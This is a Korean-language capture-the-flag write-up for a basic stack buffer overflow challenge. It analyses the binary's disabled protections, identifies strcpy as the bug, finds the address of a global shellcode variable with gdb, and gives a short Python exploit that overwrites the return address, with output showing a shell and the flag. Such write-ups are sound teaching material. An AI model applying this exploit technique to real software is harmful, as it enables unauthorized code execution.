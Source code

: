 #### 1. 문제에 적용된 보안기법 분석

```Shell
$ file basic  
basic: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=abd6e5690ca68cfa47c91046efe4e7b358bd904a, not stripped  

$ gdb -q basic
gdb-peda$ checksec basic
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

32비트 바이너리이고, 서버의 ASLR 이외에는 아무런 보안기법이 적용되어 있지 않습니다.
  
  
#### 2. 문제 분석

strcpy는 입력값의 길이에 제한없이 대상을 복사하기 때문에 Buffer Overflow가 일어나고, [NX](https://en.wikipedia.org/wiki/NX_bit)가 적용되어 있지 않기 때문에 우리는 shellcode를 사용할 수 있습니다.

서버에는 ASLR이 걸려있지만 전역변수로 선언된 shellcode라는 변수가 존재하므로 이걸 이용하여 쉘을 흭득하고 flag를 읽으면 됩니다. 이 전역변수의 주소는 고정값입니다.

또한 스택구조는 [ buffer[64] ][ 12 byte dummy ][ return address ] 와 같이 되므로 [ AAAA... AAA(76개) ][ shellcode 주소 ] 로 해주면 return address가 shellcode의 주소로 바뀌어 shellcode를 실행하게 되고 쉘을 얻게 됩니다 야호!
  
  
#### 3. 문제 풀이

우선 shellcode 변수의 주소를 얻어야 하는데... 여러가지 방법이 있겠지만 gdb를 사용하면 아주 쉽게 구할 수 있습니다.

```Shell
$ gdb -q basic
gdb-peda$ print &shellcode
$1 = (<data variable, no debug info> *) 0x804a024 <shellcode>
```

shellcode의 주소는 0x804a024 이군요!

필요한건 다 구했으니 공격해보도록 합시다

#### 4. Exploit Code
```Python
# exploit.py
from struct import pack
shellcode_addr = 0x804a024

payload = ""
payload+= "A"*64 # buffer size
payload+= "B"*12 # dummy
payload+= pack("<L", shellcode_addr) # return to shellcode, then we get the shell!

print payload
```

```Shell
./basic `python exploit.py`

Attack me and read the flag :)
$ cat flag
Jumping to the buff3r 0v3rFlow World :)
$ exit
```







